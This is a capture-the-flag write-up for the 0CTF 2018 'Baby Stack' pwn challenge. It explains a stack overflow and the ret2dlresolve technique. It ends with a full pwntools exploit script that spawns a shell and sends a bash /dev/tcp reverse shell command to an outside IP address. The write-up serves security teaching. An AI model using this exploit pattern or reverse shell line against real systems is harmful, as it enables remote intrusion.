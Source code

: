 # 0CTF 2018 Quals: Baby Stack

> Challenge link: [babystack](http://dl.0ops.net/2018/babystack.tar.gz)
>
> Category: Pwn
>
> Writeup: https://ss8651twtw.github.io/writeup/0CTF-2018-Quals:Baby-Stack/
>

Info leak is no longer required to exploit a stack overflow in 2018.

Enjoy the babystack

202.120.7.202:6666

## Protection

```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

## Analysis

- ```pow.py```

It is a wrapper of babystack.
Add proof-of-work and limiting the length of input is ```0x100```; also pipe stdout and stderr to ```/dev/null```.

- ```babystack```

Just alarm and read buffer.

```c
ssize_t sub_804843B()
{
  char buf; // [esp+0h] [ebp-28h]

  return read(0, &buf, 0x40u);
}

int __cdecl main()
{
  alarm(0xAu);
  sub_804843B();
  return 0;
}
```

## Vulnerability

No canary found and we can read a lot of characters to buf.

- **Buffer overflow** in ```read(0, &buf, 0x40u)```

## Idea

- no output function => cannot do information leak
- no libc provided => guessing function offset maybe hard
- NX enabled => read shell code and jump to execute cannot work

According to the description, "info leak is no longer required", it means that we can use ret2dlresolve skill to pwn it!

Try to solve by the following steps:

1. use rop to read fake data structures and ret2main
2. use ret2dlresolve to call ```system("/bin/sh")```

Fake data structures:

- ```Elf32_Rel```

```
/* Relocation table entry without addend (in section of type SHT_REL).  */
typedef struct
{
  Elf32_Addr        r_offset;                /* Address */
  Elf32_Word        r_info;                        /* Relocation type and symbol index */
} Elf32_Rel;
```

https://code.woboq.org/userspace/glibc/elf/elf.h.html#633

- ```Elf32_Sym```

```
/* Symbol table entry.  */
typedef struct
{
  Elf32_Word        st_name;                /* Symbol name (string tbl index) */
  Elf32_Addr        st_value;                /* Symbol value */
  Elf32_Word        st_size;                /* Symbol size */
  unsigned char        st_info;                /* Symbol type and binding */
  unsigned char        st_other;                /* Symbol visibility */
  Elf32_Section        st_shndx;                /* Section index */
} Elf32_Sym;
```

https://code.woboq.org/userspace/glibc/elf/elf.h.html#518

Working flow about ```_dl_runtime_resolve```

```
     _dl_runtime_resolve(link_map, reloc_arg)
                                       +
          +-----------+                |
          | Elf32_Rel | <--------------+
          +-----------+
     +--+ | r_offset  |        +-----------+
     |    |  r_info   | +----> | Elf32_Sym |
     |    +-----------+        +-----------+      +----------+
     |      .rel.plt           |  st_name  | +--> | system\0 |
     |                         |           |      +----------+
     v                         +-----------+        .dynstr
+----+-----+                      .dynsym
| <system> |
+----------+
  .got.plt
```

- fake ```Elf32_Rel```
    - ```r_offset``` writable (after resolving symbol write the actual address of function)
    - ```r_info``` high 24 bits
        - ```(r_info >> 8) * 16``` point to fake ```Elf32_Sym``` (16 is size of ```Elf32_Sym```)
    - ```r_info``` low 8 bits
        - must be ```0x07``` (R_386_JMP_SLOT)

- fake ```Elf32_Sym```
    - ```.dynstr + st_name``` point to ```system``` string

Read the fake ```Elf32_Rel```、```Elf32_Sym``` structures and ret2main to call ```_dl_runtime_resolve```.

- use ```plt0```

```
Disassembly of section .plt:

080482f0 <read@plt-0x10>:                                             // plt0
 80482f0:       ff 35 04 a0 04 08       push   DWORD PTR ds:0x804a004 // push link_map
 80482f6:       ff 25 08 a0 04 08       jmp    DWORD PTR ds:0x804a008 // jmp _dl_runtime_resolve
```

We can calculate the ```reloc_arg``` to make ```.rel.plt + reloc_arg``` point to our fake structures and jump to ```plt0```, let it resolve symbol to ```system```.

After resolving the symbol, ```_dl_runtime_resolve``` will call the function.

## Exploitation

```python
#!/usr/bin/env python

from pwn import *
from hashlib import sha256
import time

# r = process('./babystack')
r = remote('202.120.7.202', 6666)

def verify():
    data = r.recvline()[:-1]
    for i in xrange(2 ** 32):
        if sha256(data + p32(i)).digest().startswith('\0\0\0'):
            break
    r.send(p32(i))
    log.info('POW is over')
    sleep(0.5)

def send(data, length):
    time.sleep(0.1)
    r.send(data.ljust(length))

plt0 = 0x80482f0
relplt = 0x80482b0
dynsym = 0x80481cc
dynstr = 0x804822c

main = 0x8048457
read_plt = 0x8048300

buf = 0x804a500

rop = flat(
        # _dl_runtime_resolve call and reloc_arg
        plt0, buf - relplt, # will resolve system
        0xdeadbeef, # return address
        buf + 36 # parameter "/bin/sh"
        )

data = flat(
        # Elf32_Rel
        buf, 0x7 | ((buf + 12 - dynsym) / 16) << 8, 0xdeadbeef, # 0xdeadbeef is padding
        # Elf32_Sym
        buf + 28 - dynstr, 0, 0, 0x12,
        'system\x00\x00',
        '/bin/sh\x00'
        )

verify()

# read data to buf
send('a' * 44 + flat(read_plt, main, 0, buf, 44), 0x40)
send(data, 44)

# use ret2dlresolve to call system("/bin/sh")
send('a' * 44 + rop, 0x40)

# make a reverse shell
send('bash -c "bash -i &>/dev/tcp/35.201.141.84/80 0>&1"', 0x100)

r.interactive()
```

```flag{return_to_dlresolve_for_warming_up}```

## Note

https://www.slideshare.net/AngelBoy1/re2dlresolve

https://www.youtube.com/watch?v=wsIvqd9YqTI

